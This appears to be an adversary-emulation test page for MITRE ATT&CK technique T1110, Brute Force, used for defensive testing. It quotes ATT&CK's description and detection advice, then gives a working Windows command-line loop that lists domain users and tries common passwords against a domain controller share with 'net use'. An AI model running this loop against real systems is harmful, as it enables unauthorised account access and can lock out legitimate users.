 #   T1110 - Brute Force
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)
<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.

Credential Dumping to obtain password hashes may only get an adversary so far when Pass the Hash is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (Citation: Wikipedia Password cracking)

Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

A related technique called password spraying uses one password, or a small list of passwords, that matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)

Detection: It is difficult to detect when hashes are cracked, since this is generally done outside the scope of the target network. 

Monitor authentication logs for system and application login failures of Valid Accounts. If authentication failures are high, then there may be a brute force attempt to gain access to a system using legitimate credentials.

Also monitor for many failed authentication attempts across various accounts that may result from password spraying attempts.

Platforms: Linux, macOS, Windows

Data Sources: Authentication logs

Permissions Required: User

Contributors: John Strand</blockquote>

## Atomic Tests

- [Atomic Test #1 - Brute Force Credentials](#atomic-test-1---brute-force-credentials)


<br/>

## Atomic Test #1 - Brute Force Credentials
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** windows


#### Inputs
| Name | Description | Type | Default Value | 
|-------------------------------------------|
    | input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
    | input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
    | remote_host | Hostname of the target system we will brute force upon | String | \\COMPANYDC1\IPC$|
    | domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Run it with `command_prompt`!
```
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```
<br/>
